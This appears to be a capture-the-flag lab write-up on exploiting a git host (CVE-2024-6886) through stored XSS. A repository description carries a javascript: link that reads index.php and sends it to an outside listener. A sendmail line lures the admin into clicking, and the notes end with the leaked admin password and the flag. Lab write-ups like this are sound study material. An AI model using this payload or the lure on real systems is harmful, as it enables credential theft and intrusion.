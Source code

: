 - the mail basically says that we have to check a privately hosted git repository at `http://localhost:3000/administrator/Employee-management/.` and that jobert will check the description of the project i want to create
- i will try to forward some ports to access the repo
- i now have access to the git (version 1.22.0 which is vulnerable to # [CVE-2024-6886](https://www.cvedetails.com/cve/CVE-2024-6886/ "CVE-2024-6886 security vulnerability details"))
- we are going to try to inject a malicious payload through creating a new repo (the description might be the attck vector)
- i treidn injecting a payload that fetches the index.php page in the description because it's the one that contains the login information that is being compared with at login 
```html
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php')
.then(response => response.text())
.then(data => fetch('http://10.10.14.124/?resp=' + encodeURIComponent(data)))
.catch(error => console.error('Error:', error));">click</a>
```
- we then trick the admin to click the link via the info provided in the mail
`echo -e "Subject: exploit \n\n yo check this out http://localhost:3000/axel/yoyo" | sendmail jobert@localhost`
- while listening with an http server we recieve the response which is encoded => after decoding we ge the password of admin
```
$valid_username = 'admin';
$valid_password = 'IKw75eR0MR7CMIxhH0';
```
- we can now connect as root and find the flag `ab99bb0cf7dfc9b9b27469aa6f4df3bb`
